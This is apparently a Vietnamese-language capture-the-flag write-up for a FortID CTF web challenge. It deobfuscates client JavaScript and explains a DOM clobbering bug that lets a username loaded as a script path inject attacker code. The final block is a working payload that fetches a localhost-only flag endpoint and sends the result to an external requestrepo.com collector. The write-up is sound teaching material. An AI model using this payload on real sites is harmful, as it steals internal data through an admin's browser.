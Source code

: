 ## fortid ctf

### Upload docs

Description: There’s an `/admin?target_user={user_id}` endpoint that simulates what an admin would see on the site. From there, the admin can view target_user the links. There’s also a `/get_flag` endpoint, which appears to work only within the local network. Local port is 5000.

Đây là một challenge blackbox. Đầu tiên chúng ta sẽ thực hiện kiểm tra các chương trình bên client:

- Chương trình cho phép người dùng điền một username và một đường link, thứ sẽ bị xóa sau 1 phút.

- Người dùng submit thông tin qua POST /, request được gửi bao gồm `user_id` và thông tin

- `/admin?target_user={user_id}` đưa bot admin xem page của người dùng hiện tại. Ta không có source code nên chưa biết chi tiết bot hoạt động ra sao.

**TIến hành khai thác**

Ta tiến hành thử nghiệm một số cách như sau để tìm hiểu cách bot hoạt động

- Thử upload link webhook xem trả về ra sao,  kết quả là chỉ có 1 request DNS gửi đến.

- Thử nghiệm XSS nhưng không có vị trí cho phép inject do đã bị chương tình sanitize kĩ càng.

Tiếp đến ta thực hiện inspect code JS code client, code đã bị obfuscate. Đây là một gợi ý lớn cho việc ta nên khai thác tại đây. Sau khi deobucate ta được phần code JS như sau:

```javascript
var items = document.querySelectorAll("li");
items.forEach((I, E) => {
  document.querySelector("a[data-index=\"" + E.toString() + "\"]").id 
= document.getElementsByName(E.toString())[0].innerHTML;
});

(function () {
  var I;
  try {
    var E = Function("return (function() {}.constructor(\"return this\")( ));");
    I = E();
  } catch (h) {
    I = window;
  }
  I.setInterval(j, 1000);
})();

let backup = [].filter.constructor("return this")();
const {href} = backup["static/js/effect.js"] || 
{"href": "static/js/effect.js"};
const script = document.createElement("script");
script.src = href;
document.body.appendChild(script); 
```

Ta quan tâm tới sự xuất hiện của `innerHTML` ở đây. Đầu tiên `items` lấy các `<li>`, sau đó duyệt qua từng phần tử và chuyển đổi nó thành innerHTML. Ví dụ cụ thể:

```javascript
<ul id='links'>
  <li>
    <strong name="0">nglong05</strong> 
    <a data-index="0" href="https://fortid.com">https://fortid.com</a>
  </li>
  <li>
    <strong name="1">nglong055</strong> 
    <a data-index="1" href="https://fortid.com.vn">https://fortid.com.vn</a>
  </li>
</ul>
```

Sau khi qua phần code JS sẽ trở thành:

```javascript
<a data-index="0" href="https://fortid.com" id="nglong05">https://fortid.com</a>
<a data-index="1" href="https://fortid.com.vn" id="nglong055">https://fortid.com.vn</a>
```

Tiếp theo dòng code let backup = [].filter.constructor("return this")(); lấy object toàn cục. `[].filter.constructor` chính là `Function`. Gọi `Function("return this")()` trả về đối tượng global chính là là `window`. Vì vậy backup tương đương window.

Tiếp theo lấy thuộc tính `href` của `window["static/js/effect.js"]`. nếu không thì dùng chuỗi mặc định `"static/js/effect.js"`. Kết quả là `href` sẽ là một chuỗi URL đến file script cần tải.

TIếp theo gán thuộc tính `src` cho thẻ `<script>` bằng giá trị `href` thu được ở trên và chèn thẻ `<script>` vào body.

**Cách thức khai thác**

Việc đặt `id` từ username làm cho mọi username ta đặt đều có thuộc tính là id, nghĩa là có thể truy cập từ `window`. Bên cạnh đó, chương trình thực hiện gọi `window["static/js/effect.js"]` để appent vào script source. Hậu quả là, nếu một username mang giá trị  `static/js/effect.js` thì đồng nghĩa với việc ta có thể inject phần tử DOM tùy ý có thuộc tính href ta cấu hình vào trình duyệt. Đây là lỗ hổng DOM clobbering điển hình.

```javascript
(async () => {
  const targets = [
    'http://127.0.0.1:5000/get_flag',
    'http://127.1:5000/get_flag',
    'http://[::1]:5000/get_flag',
    'http://localhost:5000/get_flag',
  ];
  for (const u of targets) {
    try {
      const r = await fetch(u);
      if (r.ok) {
        const t = await r.text();
        new Image().src = 'https://h3h9ya7a.requestrepo.com/x?d=' + encodeURIComponent(t);
        break;
      }
    } catch (_) {}
  }
})();
```

![](images/fortid ctf_image1.png)

